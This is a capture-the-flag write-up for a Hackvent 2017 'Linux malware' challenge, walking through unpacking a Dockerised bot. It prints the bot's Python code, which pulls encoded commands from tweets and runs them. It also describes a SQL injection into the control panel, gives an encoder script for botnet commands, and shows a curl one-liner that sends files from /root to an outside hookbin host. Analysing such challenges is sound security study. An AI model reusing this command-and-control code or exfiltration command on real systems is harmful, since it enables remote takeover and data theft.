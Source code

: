 # Day 20: Linux malware

*Oh boy, this will go wrong... =D*

**Ohai** my name is muffinx...
...um yeah btw. cyberwar just started and you should just pwn everyone?


Make sure you don't leave traces and make the lifes of your opponents harder, but fairplay!

You are a hacker? Then think like a hacker!  
**Attack! Defend! And trick!**

Ladies and gentlemen,  
We understand that you  
Have come tonight  
To bear witness to the sound  
Of drum And Bass

We regret to announce  
That this is not the case,  
As instead  
We come tonight to bring you  
The sonic recreation of the end of the world.

Ladies and gentlemen,  
Prepare  
To hold  
Your  
Colour

OK.  
Fuck it,  
I lied.  
It's drum and bass.  
What you gonna do? 

**WARNING:**  
RUN INSIDE VM, THIS CONTAINER MAYBE DANGEROUS FOR YOUR SYSTEM,  
WE TAKE NO RESPONSIBILITY

You should keep the container inside the same host your haxxing on (same ip) or some things will not work...

`https://hub.docker.com/r/muffinx/hackvent17_linux_malware/`

Hint #1: check https://hub.docker.com/r/muffinx/hackvent17_linux_malware/ for regular updates, keep the container running (on the same ip) when you are haxxing the bot panel  
Hint #2: you can also use https://hookbin.com/ to create private endpoints

### Solution

I have to say I really enjoyed this challenge. Good work, muffinX!

OK, first things first. I pulled the docker image and analyzed it a bit.

```bash
$ docker pull muffinx/hackvent17_linux_malware
$ docker inspect muffinx/hackvent17_linux_malware | grep -A 2 Entrypoint
            "Entrypoint": [
                "./root/loopz.py"
            ],
```

Before actually running it I took a look inside the container to see what's in there.

```bash
$ docker run -i -t --entrypoint=/bin/bash --user=0 muffinx/hackvent17_linux_malware
$ ls /root
bot  checker.py  loopz.py  party.py
```

I copied files located in root's home outside the container for further analysis.

```bash
$ docker run muffinx/hackvent17_linux_malware &
[1] 25202
$ docker ps
CONTAINER ID        IMAGE                              COMMAND             CREATED             STATUS              PORTS               NAMES
94978f1117d5        muffinx/hackvent17_linux_malware   "./root/loopz.py"   5 seconds ago       Up 5 seconds                            cocky_northcutt
$ docker cp 94978f1117d5:/root/bot .
$ docker cp 94978f1117d5:/root/checker.py .
$ docker cp 94978f1117d5:/root/loopz.py .
$ docker cp 94978f1117d5:/root/party.py .
```

Then I inspected those files.

* [bot](files/bot "bot") - 64-bit ELF binary of the bot
* [checker.py](files/checker.py "checker.py") - heart-beat script which gets `nonce` from [challenges site](http://challenges.hackvent.hacking-lab.com:8081) which is xored and sent back after 2 seconds
* [loopz.py](files/loopz.py "loopz.py") - simple scheduler script which executes bot binary every 3 seconds
* [party.py](files/party.py "party.py") - distraction script which creates random files and directories

I focused on the ELF binary. After decompiling it I realized it unwraps itself (series of ELF binary and Python script layers) using hidden temporary files in `/tmp`. I wrote a simple [bash script](files/capture.sh) which helped me to capture those [layers](files/bot_layers).

The only interesting layer was the [last one](files/bot_layers/7.yVYaePVLvLWESIaMYqVWaXHSjlimNAau), the other ones were just wrappers. It contained a python script hidden inside manual page of `ping` command.

This is the bot's core Python [script](files/bot.py) extracted from the last layer:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import base64, os, re, urllib2
from easyprocess import EasyProcess

os.system('./checker.py')

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def ok_cool(c):
    try:
        c = x( base64.b64decode(c))
        EasyProcess(c).call(timeout=2)
    except: pass

def wtf(n):
    t =  base64.b64decode('aHR0cHM6Ly90d2l0dGVyLmNvbS8=') + n #b64decoded: 'https://twitter.com/'
    cs = []

    try:
        c_txt = urllib2.urlopen(t).read()
        cs = re.findall(base64.b64decode('VHdlZXRUZXh0U2l6ZSguKik8L3A='), c_txt) #b64decoded: 'TweetTextSize(.*)</p'
    except: pass

    for c in cs:
        try:
            c = c[c.index('>')+1:]
            if '<a href="/muffiniks" class="twitter-atreply pretty-link js-nav" dir="ltr" data-mentioned-user-id="764117042274373632" ><s>@</s><b>muffiniks</b></a>' in c and ' <a href="/hashtag/hackvent?src=hash" data-query-source="hashtag_click" class="twitter-hashtag pretty-link js-nav" dir="ltr" ><s>#</s><b>hackvent</b></a>' in c and ' rel="nofollow noopener" dir="ltr" data-expanded-url="http://hackvent.hacking-lab.com" class="twitter-timeline-link" target="_blank" title="http://hackvent.hacking-lab.com" ><span class="tco-ellipsis"></span><span class="invisible">http://</span><span class="js-display-url">hackvent.hacking-lab.com</span><span class="invisible"></span><span class="tco-ellipsis"><span class="invisible">&nbsp;</span></span></a> ' in c:
                c = c[c.index(base64.b64decode('TVVGRklOX0JPVE5FVDo='))+len( base64.b64decode('TVVGRklOX0JPVE5FVDo=')):] # b64decoded: 'MUFFIN_BOTNET:'
                c = c[:c.index(base64.b64decode('Ok1VRkZJTl9CT1RORVQ='))] # b64decoded: ':MUFFIN_BOTNET'
                ok_cool(c)
        except: pass

def ohai():
    ns = []
    try:
        n_txt = urllib2.urlopen( base64.b64decode('aHR0cDovL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjgwODEvP3R3aXR0ZXI=')).read() # b64decoded: 'http://challenges.hackvent.hacking-lab.com:8081/?twitter'
        ns = list(set([n for n in n_txt.split('|') if len(n) > 1]))
    except: pass
    for n in ns: wtf(n)

ohai()
```

After a quick code analysis I found this:
* `ohai()` functions grabs Twitter account names listed on the [challenge's panel](http://challenges.hackvent.hacking-lab.com:8081/?twitter)
* each name is then passed to `wtf()` function which searches for tweets with specified format and extracts encoded commands from these tweets
* `ok_cool()` decodes commands end executes them

Pretty simple. Next step was to figure out how to add my account name to the list to be able to send commands to the botnet. I looked at the [site panel](http://challenges.hackvent.hacking-lab.com:8081/) which contained an embedded YouTube video and just under it there was a hidden form where I could submit a password. I tried a simple SQL injection to see if it's vulnerable.

I entered `a' --` as a password and got this interesting response:

```
[-] query failed : SELECT AES_ENCRYPT('a' --','muffin_botz_hax_pw') AS enc FROM passwords
```

So I employed `sqlmap` tool to do a blind time-based SQLi to get admin's password in its encrypted form and then I decrypted it with the key `muffin_botz_hax_pw`. The password was `this_pw_is_so_eleet`.

I submited it and got to the next hidden form where I was able to add my Twitter account name to the list.

Then I wrote a simple [script](files/encode_cmd.py) based on knowledge how the bot works to encode my commands to the expected message format.

```python
#!/usr/bin/env python

import base64, sys

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def decode(cmd): return x(base64.b64decode(cmd))
def encode(cmd): return base64.b64encode(x(cmd))

prefix = '@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:'
suffix = ':MUFFIN_BOTNET'

cmd = str(sys.argv[1])

print(prefix + encode(cmd) + suffix)
```

At that point a had control over the botnet and was able to send commands. The last step was to find the right command to get the flag from the challenge server which was part of the botnet. I prepared my [hookbin](https://hookbin.com/) to capture all botnet responses and since I knew challenge server's IP from a DNS lookup I filtered captured responses to IP `80.74.140.188`.

I used following command to find the flag in root's home and send it back to my hookbin.

``` bash
sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'
```

Encoded it to a tweet:

```bash
$ ./encode_cmd.py "sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'"
@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:FQ5GPlRiTlRzdhZGS0EXCj8CNj5GSRR8WDZJTyFxBxUDJQNiREQhI0YaRnBCMAUTLHdGJkszXzYdQ3IpSUkOfFgpCx1ofUk8P1JQehtWYzQ=:MUFFIN_BOTNET
```

Tweeted it and waited for the response from challenge server. This is what i got:

```
/root/secret:HV17-wh4t-4b0ut-n!x-m4l3w4re-4nd-cyberwarezzz?
```